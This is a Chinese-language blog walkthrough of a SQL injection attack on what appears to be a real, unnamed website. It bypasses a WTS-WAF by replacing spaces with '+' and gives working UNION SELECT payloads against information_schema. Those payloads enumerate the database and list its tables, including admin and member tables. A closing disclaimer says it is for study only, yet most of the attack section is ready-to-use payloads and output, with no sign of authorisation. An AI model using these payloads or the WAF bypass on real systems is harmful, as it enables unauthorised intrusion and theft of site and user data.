








# 寻找漏洞点

网站前台页面如下：



`.php?id=6`可能是注入点

## 进行测试

发现存在报错，可能存在sql注入



输入`/?id=1and 1=1`，被waf拦截



## 绕过waf

发现是WTS-WAF，可以google或者手工尝试绕过的方法。我这里采用的是+号代替空格进行测试，竟然使用+号代替空格真能绕过，那么就可以继续向下测试了。



## 确定字段数目

通过order by 确定字段数目，查询的字段数为1

输入1没有报错：



输入2页面报错了：



## 查询数据库：

使用limit命令查看数据库，发现只有一个数据库。

```
id=-1+union+select+schema_name+from+information_schema.schemata+limit+1,1--+
```



## 读取数据库数据

读取数据库中的表

```
id=-6+union+select+table_name+from+information_schema.tables+where+table_schema=0x73616e79696e67+limit+0,1--+
```



```
id=-6+union+select+table_name+from+information_schema.tables+where+table_schema=0x73616e79696e67+limit+1,1--+
id=-6+union+select+table_name+from+information_schema.tables+where+table_schema=0x73616e79696e67+limit+2,2--+
```

数据库表:

```
db_down 0x64625f646f776e20
db_field 0x64625f6669656c64
db_files 0x64625f66696c6573
db_index_images 0x64625f696e6465785f696d61676573
db_jobs 0x64625f6a6f6273
db_manage 0x64625f6d616e616765
db_member 0x64625f6d656d626572
db_menu 0x64625f6d656e75
db_message 0x64625f6d657373616765
db_my_ads 0x64625f6d795f616473
db_my_links 0x64625f6d795f6c696e6b73
db_news 0x64625f6e657773
db_products 0x64625f70726f6475637473
db_record 0x64625f7265636f7264
db_reservation 0x64625f7265736572766174696f6e
db_singlepage 0x64625f73696e676c6570616765
db_web_class 0x64625f7765625f636c617373
```

# 免责声明

本文章仅供学习和参考。因用于其他用途而产生不良后果,作者不承担任何法律责任。